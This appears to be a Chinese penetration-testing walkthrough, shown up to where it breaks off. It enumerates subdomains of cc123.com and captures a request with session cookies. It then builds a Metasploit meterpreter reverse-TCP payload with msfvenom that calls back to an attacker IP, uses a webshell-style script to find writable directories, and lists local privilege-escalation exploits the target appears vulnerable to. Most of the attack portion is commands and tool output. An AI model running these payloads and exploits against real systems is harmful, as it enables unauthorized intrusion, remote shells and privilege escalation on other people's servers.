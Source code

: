 ```
子域名有 
www.cc123.com
new.cc123.com
ww2.cc123.com
```

现在来针对这些域名进行一些漏洞的检测（直接跳过主网站，谢

```
GET /member/ HTTP/1.1
Host: new.cc123.com
Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://new.cc123.com/member/reg_new.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=25h0l9euuo97dvkll0i01ammu2; DedeUserID=4; DedeUserID__ckMd5=f02b1d395cb070ca; DedeLoginTime=1611934954; DedeLoginTime__ckMd5=fda9227b32fdf77d

```

![image-20210130000932781](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210130000932781.png)

我们可以看到有个aspnet，这里的php权限太低，一般情况下来说，aspnet的权限都会比php高很多。

![image-20210130001306837](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210130001306837.png)

现在来meta来生成载荷进行操作了。

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.113.16 lport=12345 -f exe >s.exe 
```

他来了。

```
wt.asp 查看哪些目录是直接可以写入的
```

![image-20210130002500102](C:\Users\Crawler\AppData\Roaming\Typora\typora-user-images\image-20210130002500102.png)

提权开始。

现在先检查系统是否存在一些可以提权的漏洞

```
multi/recon/local_exploit_suggester
```

```
[*] 192.168.113.134 - Collecting local exploits for x86/windows...
[*] 192.168.113.134 - 35 exploit checks are being tried...
[+] 192.168.113.134 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 192.168.113.134 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.113.134 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.113.134 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.113.134 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
```